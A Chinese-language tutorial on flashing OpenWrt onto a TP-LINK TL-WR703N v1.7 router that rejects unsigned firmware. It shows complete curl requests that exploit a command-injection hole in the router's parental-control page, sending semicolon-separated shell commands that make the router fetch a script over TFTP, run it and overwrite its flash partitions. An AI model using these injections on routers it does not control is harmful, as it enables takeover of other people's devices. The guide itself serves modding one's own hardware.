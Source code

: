 # TP-LINK TL-WR703N v1.7 openwrt flashing

> 喜欢请[star](https://github.com/ahangchen/windy-afternoon/blob/master/linux/raspbian/tlwr703n_openwrt.md)，转载请注明作者[梦里茶](https://github.com/ahangchen)

TP-LINK TL-WR703N是一个小型的路由器，可以有线转WiFi，3G转WiFi，很多人拿它刷openwrt系统，然后可以在上面各种搞事。

### V1.7以前
通常刷openwrt的做法是，
- 下载一个openwrt [factory固件](http://downloads.openwrt.org/attitude_adjustment/12.09/ar71xx/generic/openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin)
- 打开路由器，
- 笔记本连接路由器发出来的WiFi，比如：TP-LINK-90-1B-18
- 在浏览器输入192.168.1.1，选择左边“系统工具”-“软件升级”-“浏览”
- 找到刚刚下载的镜像bin文件，确定
- 然后就会自动把openwrt刷到板子里边了

### V1.7以后
然而！上面的方法只有在2012年12月以前生产的WR703N上（型号在FW build 121204以前的）才有用，在之后的板子上，选择完bin文件会提示“上传的文件与硬件版本不符”，导致无法从web管理界面刷写系统！具体来讲，如果你的型号（这个在路由器管理界面可以看到）跟我的一样是3.17.1 Build 140120 Rel.56593n，那么恭喜你中奖了，只能通过下面这种方式或者TTL硬件方式刷openwrt。

原因是，2012年12月之后的系统升级，对bin文件做了RSA签名校验，无法刷第三方的系统。

一番搜索之后发现有个[国外的牛人](https://pastebin.com/0wzMthfr)利用TP-LINK家长控制的漏洞，让路由板执行一些代码，成功刷写openwrt系统，这个方法的英文版也被放到了openwrt wr703n的官方wiki上，可以说是相当靠谱了，国内有人也整理了一个[中文版](https://boweihe.me/2015/11/02/wr703n-v1-7-%E7%A0%B4%E8%A7%A3openwrt%EF%BC%88%E6%8F%90%E7%A4%BA%E5%AF%86%E7%A0%81%E9%94%99%E8%AF%AF%E7%AD%89%E9%97%AE%E9%A2%98%E7%9A%84%E8%A7%A3%E5%86%B3%EF%BC%89/)，但有些步骤还是不够详细，于是我整理了一个完整的版出来，让大家少踩一些坑。windows的同学可以参考这个中文版，不过里边有些链接失效了，可以参考我这篇去找对应的工具。

### 搭建tftp服务器
因为我们会先把镜像下载并处理好放在一个ftp服务器上，所以需要另一台电脑扮演这个角色
- 以MacOS为例，MacOS是内置了tftp服务器的，不需要另外安装，
- 默认的ftp服务器会把将`/private/tftpboot`这个目录作为根目录
- 修改这个目录的权限

```shell
sudo chmod 777 /private/tftpboot
sudo chmod 777 /private/tftpboot/*
```

- 启动tftp服务

```shell
sudo launchctl load -F /System/Library/LaunchDaemons/tftp.plist
sudo launchctl start com.apple.tftpd
```

- 测试，在另一台电脑上，以Ubuntu为例，安装tftp客户端

```shell
cwh@cwh-Matrimax-PC:sudo apt-get install tftp
cwh@cwh-Matrimax-PC:~$ tftp
(to) 192.168.2.210
tftp> get aa
```

把Ubuntu和mac放在一个局域网里，mac的ip是192.168.2.210，在mac的`/private/tftpboot`目录下有一个名为aa的文件，执行`get aa`之后，会发现Ubuntu的home目录下多了一个aa文件，也就是文件传送成功了。

### 准备工具
- *Nix系统下curl，dd，都是自带的，不用下载，
- 下载busybox，这个是用来在wr703n上执行dd和reboot命令用的，默认的命令行执行不了

```shell
curl https://busybox.net/downloads/binaries/1.21.1/busybox-mips > busybox
```

链接有可能失效，可以谷歌搜索busybox binary download，下载mips版本的

- 下载openwrt固件并拆分成两份（因为wr703n的内存很小，可能传输的时候传不了整个文件）

```shell
curl https://downloads.openwrt.org/snapshots/trunk/ar71xx/generic/openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin -o openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin
dd if=openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin of=i1 bs=1 count=1048576
dd if=openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin of=i2 bs=1 skip=1048576
```

- 将busybox, 拆开的固件i1, i2放到tftp服务器目录`/private/tfboot`下



### 编写Hack脚本
- 进入tftp服务器目录
- 新建文件aa（很随意的一个名字），里边内容为：

```shell
cd /tmp
tftp -gl i1 192.168.1.100
tftp -gl i2 192.168.1.100
tftp -gl busybox 192.168.1.100
chmod 755 busybox
./busybox dd if=i1 of=/dev/mtdblock1 conv=fsync
./busybox dd if=i2 of=/dev/mtdblock2 conv=fsync
reboot -f
```

解释一下每行代码

```shell
cd /tmp
tftp -gl i1 192.168.1.100 # 把i1从tftp服务器下载下来，这里的ip应该是，你的tftp服务器连接路由器之后，ifconfig看到的ip
tftp -gl i2 192.168.1.100 # 把i2从tftp服务器下载下来
tftp -gl busybox 192.168.1.100 # 把busybox从tftp服务器下载下来
chmod 755 busybox  # 修改busybox权限以执行命令
./busybox dd if=i1 of=/dev/mtdblock1 conv=fsync # 将i1写入磁盘分区
./busybox dd if=i2 of=/dev/mtdblock2 conv=fsync # 将i2写入磁盘分区
reboot -f # 重启，会启动openwrt
```
至此，你的tftp目录下应该有4个文件：i1, i2, aa, busybox，缺一不可

### Hack into TL-WR703N
这个方法是利用TPLINK家长控制漏洞，以curl的方式执行命令，让路由器从tftp服务器上下载脚本，执行命令，从而将openwrt固件写入路由器

> 【警告】以下步骤可能导致你的路由器变砖，请确认当前的路由器固件版本是3.17.1 Build 140120. 下述全过程请勿断开连接或是断开电源，本人不对产生的任何后果负责！另外，每一步都很重要，别忽略其中任何一步。一旦变砖，请用3.3V的串口线抢救

- 首先长按reboot按钮将路由器恢复出厂设置
- 将tftp服务器（这里是Mac）通过WiFi的方式连接到路由器，ifconfig记住自己的ip，我的是192.168.1.100
- 在tftp服务器上（连接到路由器的另外一台机器也行）执行

- 修改密码为admin42

```shell
curl -o - -b 'tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=true' 'http://192.168.1.1/'
```

注意这里的192.168.1.1是路由器的ip地址, 这个步骤只会更改路由器家长控制的默认密码，刷完openwrt之后会恢复为openwrt的默认密码的

- 启用家长控制（利用漏洞）

```shell
curl -o - -b 'tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=' --referer 'http://192.168.1.1/userRpm/ParentCtrlRpm.htm' 'http://192.168.1.1/userRpm/ParentCtrlRpm.htm?ctrl_enable=1&parent_mac_addr=00-00-00-00-00-02&Page=1'
```

- 让路由器从tftp服务器下载并执行脚本

```shell
curl -o - -b 'tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=' --referer 'http://192.168.1.1/userRpm/ParentCtrlRpm.htm?Modify=0&Page=1' 'http://192.168.1.1/userRpm/ParentCtrlRpm.htm?child_mac=00-00-00-00-00-01&lan_lists=888&url_comment=test&url_0=;cd%20/tmp;&url_1=;tftp%20-gl%20aa%20192.168.1.100;&url_2=;sh%20aa;&url_3=&url_4=&url_5=&url_6=&url_7=&scheds_lists=255&enable=1&Changed=1&SelIndex=0&Page=1&rule_mode=0&Save=%B1%A3+%B4%E6'
```

等待大约三分钟，路由器会重启进入openwrt系统，状态灯会闪烁一会儿

### 进入openwrt系统
后边可以参考这位大兄弟写的[教程](https://gist.github.com/ninehills/2627163#%E5%88%9D%E5%A7%8B%E9%85%8D%E7%BD%AE2)，挺详细的了

